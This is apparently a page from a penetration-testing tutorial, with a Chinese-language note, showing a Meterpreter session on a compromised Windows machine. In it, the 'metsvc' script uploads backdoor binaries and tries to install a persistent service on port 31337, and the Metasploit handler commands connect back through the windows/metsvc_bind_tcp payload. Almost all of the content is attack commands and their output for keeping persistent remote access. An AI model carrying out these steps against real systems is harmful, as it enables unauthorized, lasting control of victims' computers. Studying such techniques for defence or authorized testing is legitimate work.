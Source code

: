 meterpreter > run metsvc -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter > run metsvc

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\HLDIkkGKSJ...
[*] >> Uploading metsrv.x86.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
Cannot open service manager (0x00000005)

meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\kcpFjUBMraKZ...
[*] >> Uploading metsrv.x86.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
Cannot open service manager (0x00000005)

[*] Trying to connect to the Meterpreter service at 192.168.43.103:31337...
meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\EStXBGaPCbHz...
[*] >> Uploading metsrv.x86.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
Cannot open service manager (0x00000005)

[*] Trying to connect to the Meterpreter service at 192.168.43.103:31337...
如果 Success，则直接使用 handler，利用 windows/metsvc_bind_tcp 的 payload：

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/metsvc_bind_tcp
payload => windows/metsvc_bind_tcp
msf exploit(handler) > set rhost 192.168.43.103
rhost => 192.168.43.103
msf exploit(handler) > set lport 31337
lport => 31337
msf exploit(handler) > exploit


[go0s]: ~